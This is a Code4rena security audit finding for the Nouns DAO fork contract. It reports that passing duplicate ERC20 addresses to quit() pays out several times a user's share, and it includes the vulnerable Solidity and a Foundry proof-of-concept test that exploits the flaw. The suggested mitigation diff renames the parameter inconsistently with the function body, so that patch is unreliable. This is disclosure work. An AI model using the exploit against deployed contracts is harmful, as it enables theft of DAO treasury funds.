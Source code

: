 ## Tags

- bug
- 3 (High Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- upgraded by judge
- H-01

# [User can steal tokens by using duplicated ERC20 tokens as parameter in NounsDAOLogicV1Fork.quit](https://github.com/code-423n4/2023-07-nounsdao-findings/issues/102) 

# Lines of code

https://github.com/nounsDAO/nouns-monorepo/blob/718211e063d511eeda1084710f6a682955e80dcb/packages/nouns-contracts/contracts/governance/fork/newdao/governance/NounsDAOLogicV1Fork.sol#L206-L216


# Vulnerability details

## Impact
Calling [NounsDAOLogicV1Fork.quit](https://github.com/nounsDAO/nouns-monorepo/blob/718211e063d511eeda1084710f6a682955e80dcb/packages/nouns-contracts/contracts/governance/fork/newdao/governance/NounsDAOLogicV1Fork.sol#L206-L216) by using dupliated ERC20 tokens, malicious user can gain more ERC20 tokens than he/she is supposed to, even drain all ERC20 tokens

## Proof of Concept
In function, [NounsDAOLogicV1Fork.quit](https://github.com/nounsDAO/nouns-monorepo/blob/718211e063d511eeda1084710f6a682955e80dcb/packages/nouns-contracts/contracts/governance/fork/newdao/governance/NounsDAOLogicV1Fork.sol#L206-L216), `erc20TokensToInclude` is used to specified tokens a user wants to get, but since the function doesn't verify if `erc20TokensToInclude` contains dupliated tokens, it's possible that a malicious user calls the function by specify the ERC20 more than once to get more share tokens
```solidity
    function quit(uint256[] calldata tokenIds, address[] memory erc20TokensToInclude) external nonReentrant {
        // check that erc20TokensToInclude is a subset of `erc20TokensToIncludeInQuit`
        address[] memory erc20TokensToIncludeInQuit_ = erc20TokensToIncludeInQuit;
        for (uint256 i = 0; i < erc20TokensToInclude.length; i++) {
            if (!isAddressIn(erc20TokensToInclude[i], erc20TokensToIncludeInQuit_)) {
                revert TokensMustBeASubsetOfWhitelistedTokens();
            }
        }

        quitInternal(tokenIds, erc20TokensToInclude);
    }

    function quitInternal(uint256[] calldata tokenIds, address[] memory erc20TokensToInclude) internal {
        checkGovernanceActive();

        uint256 totalSupply = adjustedTotalSupply();

        for (uint256 i = 0; i < tokenIds.length; i++) {
            nouns.transferFrom(msg.sender, address(timelock), tokenIds[i]);
        }

        uint256[] memory balancesToSend = new uint256[](erc20TokensToInclude.length);

        // Capture balances to send before actually sending them, to avoid the risk of external calls changing balances.
        uint256 ethToSend = (address(timelock).balance * tokenIds.length) / totalSupply;
        for (uint256 i = 0; i < erc20TokensToInclude.length; i++) {
            IERC20 erc20token = IERC20(erc20TokensToInclude[i]);
            balancesToSend[i] = (erc20token.balanceOf(address(timelock)) * tokenIds.length) / totalSupply;
        }

        // Send ETH and ERC20 tokens
        timelock.sendETH(payable(msg.sender), ethToSend);
        for (uint256 i = 0; i < erc20TokensToInclude.length; i++) {
            if (balancesToSend[i] > 0) {
                timelock.sendERC20(msg.sender, erc20TokensToInclude[i], balancesToSend[i]);
            }
        }

        emit Quit(msg.sender, tokenIds);
    }
```

Add the following code in test/foundry/governance/fork/NounsDAOLogicV1Fork.t.sol file `NounsDAOLogicV1Fork_Quit_Test` contract,
and run `forge test --ffi --mt test_quit_allowsChoosingErc20TokensToIncludeTwice`
```solidity
    function test_quit_allowsChoosingErc20TokensToIncludeTwice() public {
        vm.prank(quitter);
        address[] memory tokensToInclude = new address[](3);
        //****************************
        // specify token2 three times
        //****************************
        tokensToInclude[0] = address(token2);
        tokensToInclude[1] = address(token2);
        tokensToInclude[2] = address(token2);
        dao.quit(quitterTokens, tokensToInclude);

        assertEq(quitter.balance, 24 ether);
        assertEq(token1.balanceOf(quitter), 0);
        //****************************
        // get 3 time tokens
        //****************************
        assertEq(token2.balanceOf(quitter), 3 * (TOKEN2_BALANCE * 2) / 10);
     }
```

## Tools Used
VS

## Recommended Mitigation Steps
By using function `checkForDuplicates` to prevent the issue
```diff
--- NounsDAOLogicV1Fork.sol	2023-07-12 21:32:56.925848531 +0800
+++ NounsDAOLogicV1ForkNew.sol	2023-07-12 21:32:34.006158294 +0800
@@ -203,8 +203,9 @@
         quitInternal(tokenIds, erc20TokensToIncludeInQuit);
     }
 
-    function quit(uint256[] calldata tokenIds, address[] memory erc20TokensToInclude) external nonReentrant {
+    function quit(uint256[] calldata tokenIds, address[] memory erc20tokenstoinclude) external nonReentrant {
         // check that erc20TokensToInclude is a subset of `erc20TokensToIncludeInQuit`
+        checkForDuplicates(erc20tokenstoinclude);
         address[] memory erc20TokensToIncludeInQuit_ = erc20TokensToIncludeInQuit;
         for (uint256 i = 0; i < erc20TokensToInclude.length; i++) {
             if (!isAddressIn(erc20TokensToInclude[i], erc20TokensToIncludeInQuit_)) {

```


## Assessed type

Other